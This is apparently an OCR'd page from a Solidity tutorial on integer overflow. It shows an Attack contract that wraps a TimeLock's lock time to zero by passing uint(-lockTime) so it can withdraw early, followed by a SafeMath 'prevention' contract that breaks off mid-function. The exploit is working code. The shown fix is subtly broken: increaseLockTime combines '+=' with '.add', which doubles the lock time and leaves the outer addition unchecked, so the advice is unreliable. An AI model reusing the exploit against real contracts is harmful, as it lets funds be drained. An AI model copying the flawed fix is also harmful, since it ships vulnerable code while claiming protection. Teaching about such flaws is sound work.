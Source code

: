 ```solidity
contract Attack {
    TimeLock timeLock;
    
    constructor(TimeLock _timeLock) public {
        timeLock = TimeLock(_timeLock);
    }
    
    fallback() external payable {
        
    }
    
    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        //t == current lock timeLock//find x such that 
        //x + t = 2**256 = 0
        timeLock.increaseLockTime(
            //a huge number
            uint(-timeLock.lockTime(address(this)))
            );
            timeLock.withdraw();
    }
}
```

#### Prevention

- Use safemath

```solidity
pragma solidity ^0.6.10;

/*
overflow
underflow
uint = 2**256-1
-3 will be an underflow
*/

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract TimeLock {
    using SafeMath for uint; //myUint.add(123)
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = now + 1 weeks;
    }
    
    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += lockTime[msg.sender].add(_secondsToIncrease);
    }
    
    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(now > lockTime[msg.sender], "lock time not expired");
        
        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;
        
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
```